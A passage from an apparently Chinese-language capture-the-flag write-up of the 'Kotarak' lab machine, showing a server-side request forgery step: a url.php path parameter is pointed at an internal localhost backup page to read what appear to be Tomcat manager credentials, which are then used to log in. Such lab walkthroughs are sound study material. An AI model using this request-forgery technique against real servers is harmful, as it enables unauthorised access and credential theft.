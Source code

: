 ![](https://github.com/Whale3070/whale3070.github.io/blob/master/_pictures/kotarak.resource/4.PNG)

- Trying

访问备份页面的地址`http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`
url编码一下`http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup`
得到了可能是tomcat配置文件中的用户名密码。


![](https://github.com/Whale3070/whale3070.github.io/blob/master/_pictures/kotarak.resource/5.PNG)
我们用这个口令登陆端口扫描那一步获得的地址`manager/html`
